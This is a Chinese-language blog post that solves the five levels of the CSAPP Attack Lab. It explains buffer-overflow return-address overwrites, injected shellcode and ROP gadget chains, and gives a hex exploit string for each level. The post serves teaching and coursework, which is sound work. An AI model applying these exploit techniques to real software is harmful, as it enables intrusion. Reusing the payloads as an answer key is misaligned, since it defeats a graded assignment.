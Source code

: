 ```yaml
---
title: Attacklab
date: 2022/11/01
updated: 2022/11/01
cover: https://images6.alphacoders.com/123/thumbbig-1235140.webp
top_img: 
description: attacklab实验
swiper_index: 8 #置顶轮播图顺序，非负整数，数字越大越靠前
categories: CSAPP
---
```


# 【LittleXi】Attacklab


# Level1

题目大意：利用缓冲区溢出机制，当test函数调用函数getbuf时，不要直接返回到test函数，而是返回到touch1

解题思路：利用缓冲区溢出，我们不断输入字符串，直到填满整个黄色空间，继续输入字符串（touch1的地址），使得getbuf的返回地址被掩盖为touch1，就成功调用touch1了
![在这里插入图片描述](https://img-blog.csdnimg.cn/6d5634a1bf094aee832b385bd2610a13.png#pic_center)

答案：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
86 5e 55 55 55 55 00 00 
```

# Level2

题目大意：类似于Level1，同样利用缓冲区溢出机制，当test函数调用函数getbuf时，不要直接返回到test函数，而是返回到touch2，并在返回touch2之前，将touch2的参数修改为cookil

解题思路：利用缓冲区溢出，我们不断输入字符串，直到填满整个黄色空间，继续输入字符串（读入字符串时栈顶rsp的地址rsp），使得getbuf的返回地址被掩盖为rsp的地址，然后执行我们注入的汇编代码使得修改%rdi的值，并ret

到touch2的地址

注意事项:对于rsp的地址可以用gdb调试到栈顶，然后输入<code> p  /x $rsp</code> 即可直接查看rsp的地址，注入代码流程应该是先手写汇编代码，然后利用

* <code>gcc -c example.s</code>

* <code>objdump -d example.o > example.d</code>

  这两条指令得到程序的机器码
![在这里插入图片描述](https://img-blog.csdnimg.cn/58e0791e1a9b401eb966b9b0f4ac96d7.png#pic_center)

答案:

```
48 c7 c7 56 db eb 76 48
b8 ba 5e 55 55 55 55 00
00 50 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 a0 61 55 00 00 00 00
```

# Level3

题目大意：题目意思和Level2大致相同，只是需要给寄存器%rdi的值换为了字符串的地址就行了

解题思路：我们此时需要找到一个位置来存储字符串，不妨就存储在末尾，然后我们调用栈顶地址之后返回string的开始地址就行了

答案:

```
48 8d 3c 24 48 b8 df 5f 
55 55 55 55 00 00 50 c3 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 a0 61 55 00 00 00 00
37 36 65 62 64 62 35 36 00
```

# Level4

题目大意：这个是第二阶段的题目，在rtarget中将采用栈随机化，和限制可执行区域来阻止攻击，attacker的目的是将cookie传入touch2函数中，然后调用touch2函数

解题思路:可以直接将rtarget反汇编，去rtarget里面去寻找pop %rax和mov %rax %rdi

答案：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b4 60 55 55 55 55 00 00
56 db eb 76 00 00 00 00
df 60 55 55 55 55 00 00
ba 5e 55 55 55 55 00 00
```

# Level5

题目大意:和Level3一样的，只是不能直接传值

解题思路：可以综合Level3和Level4的操作，先存储%rsp的地址，然后把按%rsp偏移地址后指向的cookie串的地址传给%rdi就行了

答案：

~~~
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
34 62 55 55 55 55 00 00
df 60 55 55 55 55 00 00
85 58 55 55 55 55 00 00
30 00 00 00 00 00 00 00
f2 60 55 55 55 55 00 00
df 60 55 55 55 55 00 00
df 5f 55 55 55 55 00 00
37 36 65 62 64 62 35 36 00
~~~
